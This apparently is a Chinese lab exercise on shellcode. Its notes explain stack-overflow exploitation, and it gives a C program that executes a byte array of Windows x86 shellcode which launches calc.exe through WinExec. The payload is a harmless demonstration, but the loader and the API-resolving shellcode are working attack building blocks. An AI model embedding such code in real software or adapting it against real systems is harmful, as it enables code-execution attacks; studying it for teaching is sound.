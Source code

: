 # shellcode

## 实验目的

+ 掌握shellcode的原理

## 实验先修知识（课堂笔记）

+ 栈溢出漏洞，当向栈中的局部变量拷贝了超长的数据，覆盖了在局部变量的内存空间之后的函数返回地址。那么当函数返回的时候就会跳转到覆盖后新的地址
+ 那么跳转到新的地址后，这一段新的地址的数据，如果是可执行的一段代码。那么这段代码就会被执行。
+ 这段代码当然是需要攻击者来编写的，攻击者通过这段代码来实现攻击之后的控制等等功能。
+ 早起，黑客在攻击了一个系统以后，最常使用的控制方式是创建一个远程的shell，这要黑客就可以远程通过命令的方式控制目标计算机了。
+ 就像我们现在的ssh远程控制计算机一样。不过ssh是管理员主动开启的，黑客攻击后的shellcode是通过漏洞非法入侵后开启的。
+ 由于早期的黑客攻击后通常是开启一个shell，所以这段在缓存区溢出以后跳转执行的一段代码，就被称为shellcode。
+ 现在呢，shellcode的功能已经很多了，千奇百怪。但是总体的目的还是对远程的目标计算机进行控制。



## 实验步骤

+ 如下是一段`shellcode`代码

  ```c
  
  #include <windows.h>
  #include <stdio.h>
  
  char code[] = \
  "\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
  "\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
  "\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
  "\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
  "\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
  "\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
  "\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
  "\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
  "\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
  "\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
  "\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
  "\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
  "\x52\xff\xd0";
  
  int main(int argc, char** argv)
  {
      int (*func)();
      func = (int(*)()) code;
      (int)(*func)();
  }
  ```

+ 这个shellcode的功能是运行一个计算器程序。
